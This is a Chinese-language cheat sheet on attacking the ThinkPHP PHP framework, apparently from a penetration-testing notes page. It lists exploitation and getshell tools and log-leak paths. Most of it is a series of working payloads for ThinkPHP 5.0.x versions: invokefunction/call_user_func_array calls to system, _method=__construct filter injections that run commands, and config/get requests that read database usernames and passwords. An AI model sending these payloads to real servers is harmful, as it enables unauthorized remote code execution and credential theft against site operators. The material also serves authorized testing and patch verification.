 **相关工具**
- [Lucifer1993/TPscan](https://github.com/Lucifer1993/TPscan) - 一键 ThinkPHP 漏洞检测
- [theLSA/tp5-getshell](https://github.com/theLSA/tp5-getshell) - thinkphp5 rce 漏洞检测工具
- [sukabuliet/ThinkphpRCE](https://github.com/sukabuliet/ThinkphpRCE) - Thinkphp rce 扫描脚本，附带日志扫描
- [tangxiaofeng7/TPScan](https://github.com/tangxiaofeng7/TPScan)
- [bewhale/thinkphp_gui_tools](https://github.com/bewhale/thinkphp_gui_tools) - ThinkPHP 漏洞 综合利用工具, 图形化界面, 命令执行, 一键getshell, 批量检测, 日志遍历, session包含, 宝塔绕过
    ```
    java -Dfile.encoding="UTF-8" --module-path "C:\Program Files\Java\javafx-sdk-11.0.2\lib" --add-modules "javafx.controls,javafx.fxml,javafx.web" -jar "xxx.jar"
    ```

**资源**
- [Mochazz/ThinkPHP-Vuln](https://github.com/Mochazz/ThinkPHP-Vuln) - 关于 ThinkPHP 框架的历史漏洞分析集合
- [SkyBlueEternal/thinkphp-RCE-POC-Collection](https://github.com/SkyBlueEternal/thinkphp-RCE-POC-Collection) - thinkphp v5.x 远程代码执行漏洞-POC集合

**日志泄露**
```bash
/runtime/log/202004/1.log       # 年月/数字
```
- [whirlwind110/tphack](https://github.com/whirlwind110/tphack) - Thinkphp 3/5 Log 文件泄漏利用工具

**thinkphp 5**
```
/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1
(post)public/index.php (data)c=exec&f=calc.exe&_method=filter
```

**thinkphp 5.0.10(完整版)**
```
(post)public/index.php?s=index/index/index (data)s=whoami&_method=__construct&method&filter[]=system
```

**thinkphp 5.0.21**
```
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

**thinkphp 5.0.22**
```
/?s=.|think\config/get&name=database.username
/?s=.|think\config/get&name=database.password
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

**thinkphp 5.0.23(完整版)**
```
(post)public/index.php?s=captcha (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al
```

**thinkphp 5.0.23（完整版）debug模式**
```
(post)public/index.php (data)_method=__construct&filter[]=system&server[REQUEST_METHOD]=touch%20/tmp/xxx
```
